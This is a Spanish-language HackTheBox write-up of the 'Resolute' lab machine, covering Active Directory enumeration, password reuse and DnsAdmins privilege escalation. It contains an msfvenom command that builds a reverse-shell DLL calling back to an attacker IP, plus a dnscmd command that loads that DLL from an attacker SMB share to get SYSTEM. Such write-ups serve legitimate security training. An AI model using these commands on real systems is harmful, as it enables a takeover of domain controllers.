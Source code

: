 ```yaml
---
title: Resolute - Write Up (HTB) ❤
author: sha16
categories: [HackTheBox, Active Directory]
tags: [Abusing DNSAdmins Group, Active Directory, Null Session via RPC, Password Spraying, Password exposed via RPC, Windows]
---
```


Buenas a tod@s, el día de hoy les traigo un `write-up` de la máquina `Resolute` de `HackTheBox`.  

![Untitled](/assets/img/htb/machines/Resolute/Untitled.png)

Como en cada `write-up`, lo primero hacemos es lanzar un escaneo de puertos con `nmap` con el objetivo de identificar potenciales vías de ataque. 

Como podrán ver a continuación, se específica el parámetro `-sS` con el objetivo de que el escaneo sea vía `TCP SYNC`, lo que de cierto modo me permitirá agilizarlo, debido a que no hay `Three-Way-HandShake` como en `TCP`.

Lo otro es que se configura el `--min-rate` en `3000` con la idea de no enviar una cantidad menor a `3000` paquetes por segundo.

**Advertencia:** No aconsejo lanzar este escaneo en entornos productivos debido a que es ultra ruidoso y agresivo. En este caso lo estoy lanzando en un entorno controlado de `HackTheBox`.

```bash
nmap -v -sS --min-rate 3000 -n -Pn -p- 10.10.10.169 -oG tcp_ports.txt
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%201.png)

En el resultado del escaneo, se identifican varios servicios de interés, entre ellos: WinRPC, SMB, LDAP, WinRM y Kerberos. Sin embargo, ya con sólo ver al servicio `Kerberos`, podemos deducir que estamos ante un entorno de *Active Directory*. Por lo que ya podemos saber más o menos cómo enforcar nuestra estrategia de ataque y enumeración.

```bash
nmap -v -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49682,49714,49839 10.10.10.169 -oN port_scan.txt
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%202.png)

Uno de los primeros problemas de seguridad que identificamos al enumerar la máquina, es que te puedes autenticar sobre el servicio LDAP sin necesidad de una contraseña, pudiendo listar información sensible del dominio, tal como usuarios, propiedades de objetos, etc.

```bash
ldapsearch -H ldap://10.10.10.169 -w '' -x -b 'DC=megabank,DC=local'
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%203.png)

De la misma forma, esto ocurre con WinRPC, donde nos podemos autenticarnos con el *null session* y listar a todos los usuarios del dominio.

```bash
rpcclient -N -U '' megabank.local
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%204.png)

Al listar las descripciones de cada usuario, identificamos que en la del usuario `marko` hay una contraseña `Welcome123!`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%205.png)

Teniendo una contraseña potencialmente válida, realizamos un *Password Sprying* donde identificamos que esta la pertenece al usuario `melanie`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%206.png)

Al validar la credencial sobre el servicio WinRM, descubrimos que el usuario `melanie` forma parte del grupo `Remote Management Users`, por lo que podemos obtener acceso directo hacía una consola en el servidor con la herramienta `evil-winrm`. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%207.png)

Habiendo obtenido acceso al servidor, identificamos la carpeta `PSTranscripts`, la cual no forma parte del listado común de directorios en la raíz de los sistemas operativos Windows. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%208.png)

Al revisar dicho directorio, se identifica otro directorio dentro de este, el cual posee un archivo de texto.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%209.png)

Al revisar dicho archivo, se identifican comandos de consola, los cuales muestran intentos de autenticación sobre un recurso de red, con la contraseña del usuario `ryan`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2010.png)

Esta contraseña es validada con `crackmapexec`, herramienta con la cual validamos que el usuario `ryan` también pertenece al grupo `Remote Management Users`. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2011.png)

Posterior a esto, antes de autenticarnos con el usuario `ryan`, lanzamos la herramienta `SharpHound.exe`, con el objetivo de listar potenciales vectores de ataque que puedan existir entre las relaciones establecidas entre los distintos objetos que componen al AD. 

```powershell
cmd /c SharpHound.exe --CollectionMethods All
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2012.png)

Analizando el esquema de relación, detectamos que el usuario forma parte del grupo `Contractors`, el cual a su vez pertenece al grupo privilegiado, `DnsAdmins`. 

En este punto, hemos encontrado el vector de escalada de privilegios, debido a que el grupo `DnsAdmins` forma parte de los objetos críticos del directorio activo. Esto significa que, un usuario que forma parte de este, tiene la capacidad de controlar la totalidad del servicio, incluida las DLLs que se ejecutan en contexto privilegiado. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2013.png)

Por lo tanto, dado que tenemos control total del servicio, podemos crear una DLL maliciosa con la herramienta `MSFvenom`, la cual nos está compilada para enviarnos una *reverse shell* a nuestra máquina, al puerto `443` en escucha. 

Es importante destacar que esta DLL, sobre la cual tenemos control, se ejecuta en un contexto de máximos privilegios en el servidor.

```powershell
msfvenom -a x64 -p windows/x64/shell_reverse_tcp -e x64/xor LHOST=10.10.17.210 LPORT=443 -f dll -o dnsadmin_priv.dll
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2014.png)

Posterior a esto, con la herramienta `dnscmd.exe`, la cual es utilizada para administrar el DNS, añadimos a la DLL maliciosa como un *plugin* del servicio.

Cabe destacar que la DLL se encuentra servida en una carpeta compartida por SMB, en nuestro servidor atacante. 

```powershell
dnscmd.exe RESOLUTE /config /serverlevelplugindll \\10.10.17.210\smb\dnsadmin_priv.dll
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2015.png)

Como se observó en la imagen anterior, la configuración es aplicada exitosamente.

En base a esto, se reinicia el servidor DNS, lo cual provoca que automáticamente se invoque y ejecute nuestra DLL, a través del servicio SMB. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2016.png)

Habiéndose ejecutado, recibimos con éxito la *reverse shell* de `NT Authority\System`, en el puerto en escucha de nuestra máquina. De esta manera, logramos control total del *Domain Controller*.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2017.png)

### Referencias

- DNSAdmin to DC compromise in one line (by Shay Ber): [https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)
- dnscmd (Microsoft Learn): [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)
- DnsAdmins to DomainAdmin: [https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)